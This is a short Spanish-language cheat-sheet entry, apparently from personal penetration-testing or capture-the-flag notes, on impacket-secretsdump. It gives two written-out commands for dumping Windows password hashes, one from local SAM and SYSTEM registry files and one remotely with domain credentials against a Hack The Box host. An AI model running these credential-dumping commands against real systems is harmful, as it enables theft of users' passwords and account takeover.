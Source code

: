 #impacket-secretsdump

-----

Extrae credenciales de sistemas Windows volcando hashes de contraseñas de New Technology LAN Manager (NTLM) y LAN Manager (LM), incluso desde la memoria o los subárboles del registro, lo que ayuda al robo de credenciales.

-----
# Comando

## Ejemplo 1

```shell
impacket-secretsdump -sam sam -system system LOCAL
Ejemplo impacket-secretsdump -sam sam -system system LOCAL
```
*Parametros:*
	`-sam` Es para especificar el formato del archivo
	`-system` Es para indicar el archivo system que tiene la encriptacion
	`-ntds` Indicamos le archivo ntds
	LOCAL` Es para indicar que es a nivel local

## Ejemplo 2

```shell
secretsdump.py 'Dominio'/'Usuario':'Contraseña'@'Host'
Ejemplo:secretsdump.py 'administrator.htb'/'ethan':'limpbizkit'@'administrator.htb'
```
